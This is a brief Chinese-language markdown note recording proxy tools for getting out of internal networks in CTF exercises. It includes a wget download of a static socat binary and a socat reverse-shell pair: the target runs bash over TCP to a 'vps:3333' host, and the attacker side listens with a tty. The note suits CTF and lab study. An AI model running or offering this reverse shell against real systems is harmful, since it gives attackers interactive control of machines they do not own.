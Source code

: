 # 记录一些代理工具

>目前是用与ctf的内网环境代理出内网。

### socat
地址：http://www.iteait.com/archives/603

socat下载:地址
https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

直接wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat

靶机：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:vps:3333
主机：socat file:`tty`,raw,echo=0 tcp-listen:3333










